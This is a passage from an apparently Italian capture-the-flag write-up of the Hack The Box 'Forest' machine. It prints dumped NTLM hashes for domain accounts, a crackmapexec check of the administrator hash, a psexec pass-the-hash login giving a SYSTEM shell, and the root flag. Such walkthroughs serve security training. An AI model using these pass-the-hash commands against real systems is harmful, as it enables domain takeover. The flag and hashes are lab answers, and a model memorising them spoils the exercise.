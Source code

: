 ```shell
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
miku:9601:aad3b435b51404eeaad3b435b51404ee:d85f934291c191b5d8aad5161afe1472:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:0459972bb2461674228ebeaf927d59d8:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
``` 

Ora usiamo *crackmapexec* per verificare se la password sia corretta:

```shell
└─$ crackmapexec smb 10.10.10.161 -u administrator -H aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```

È **Pwn3d** quindi possiamo accedere utilizzando *psexec*:

```shell
─$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file vkhcxRSt.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service OuEU on 10.10.10.161.....
[*] Starting service OuEU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

In *C:\Users\Administrator\Desktop* abbiamo la root flag: `86f0fb55e74b5703238b69868f5cad82`